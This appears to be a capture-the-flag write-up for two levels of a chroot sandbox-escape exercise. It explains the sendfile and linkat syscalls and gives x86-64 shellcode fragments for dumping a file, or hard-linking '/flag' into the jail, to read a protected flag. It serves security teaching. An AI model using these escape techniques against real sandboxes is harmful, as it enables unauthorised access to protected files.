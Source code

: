 

## level 4

> Escape a chroot sandbox using shellcode, but this time only using the following syscalls: "openat", "read", "write", "sendfile".

* We could very well use the previous level's code but let's try something new.
* The `sendfile` command is a combination of the `read` and `write` system calls. It's also more efficient as it does not require data to be transferred to and from [user space](https://en.wikipedia.org/wiki/User\_space\_and\_kernel\_space).
* It takes the following arguments:

```c
ssize_t sendfile(int out_fd, int in_fd, off_t *_offset, size_t _count);
```

* In our case the `out_fd` will be `1` for STDOUT.

```armasm
# Sendfile syscall
mov rdi, 1
mov rsi, rax
mov rdx, 0
mov r10, 1000
mov rax, 0x28
syscall
```

* Replace the `read` and `write` syscalls with the above code.



## level 5

> Escape a chroot sandbox using shellcode, but this time only using the following syscalls: "linkat", "open", "read", "write", "sendfile"

* We can no longer use `openat`, but now we are allowed to use `linkat`.
* It takes five arguments.

```c
int linkat(int olddirfd, const char *oldpath, int newdirfd, const char *newpath, int flags);
```

* Using `linkat` we can create a [hard link](https://en.wikipedia.org/wiki/Hard\_link) in `/tmp/jail/` that points to the `/flag` file in root `/` directory.
* A hard link is an entry that associate a name with a file.
* This allows us to access `/flag` inside of `/tmp/jail/` using a different name.
* Note that `linkat` returns a value of 0 on success.

```armasm
# Linkat syscall
mov rdi, 3
lea rsi, [rip + old_path]
mov rdx, 4
lea r10, [rip + new_path]
mov r8, 0
mov rax, 0x109
syscall

old_path: 
.string "flag"

new_path: 
.string "/flag2.txt"
```
